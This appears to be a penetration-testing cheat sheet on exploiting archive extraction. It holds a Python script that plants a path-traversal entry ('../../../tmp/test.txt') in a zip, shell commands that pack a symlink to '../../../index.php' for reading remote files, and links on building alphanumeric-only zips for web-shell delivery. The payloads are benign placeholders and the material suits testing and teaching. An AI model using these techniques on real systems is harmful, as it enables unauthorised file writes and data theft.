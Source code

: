 ZIP
===

## Exploit Path Traversal on decompress

Some programs do not check the zip path while extracting the archive.
Then it's possible to exploit this to extract a file to a custom location.

```python
import os
import zipfile

def zip(dst):
  zf = zipfile.ZipFile('%s.zip' % dst, 'w', zipfile.ZIP_DEFLATED)
  zf.writestr('../../../../../../../tmp/test.txt', 'toto')

if __name__ == '__main__':
    zip('test')
```


## Symlink

Upload a link containing a symlink to an other file to access the remote file
after the decompression:

```bash
ln -s ../../../index.php test.txt
zip --symlinks test.zip test.txt
```


## Create zip with [A-Za-z0-9] chars only

Here is two repositories to create a zip file that use only characters in in the
[A-Za-z0-9] ASCII byte range.

- [https://github.com/molnarg/ascii-zip](https://github.com/molnarg/ascii-zip)
- [https://github.com/Arusekk/ascii-zip](https://github.com/Arusekk/ascii-zip)

This can be usefull to create packages (jar, docx, ...) with only "allowed" characters.
This technic is explained here:

- [LiveOverflow - Crazy JSP Web Shell to Exploit Tomcat - Real World CTF 2022](https://www.youtube.com/watch?v=qA8KB6KndrE)
- [rwctf-4th-desperate-cat](https://github.com/voidfyoo/rwctf-4th-desperate-cat/tree/main/writeup)

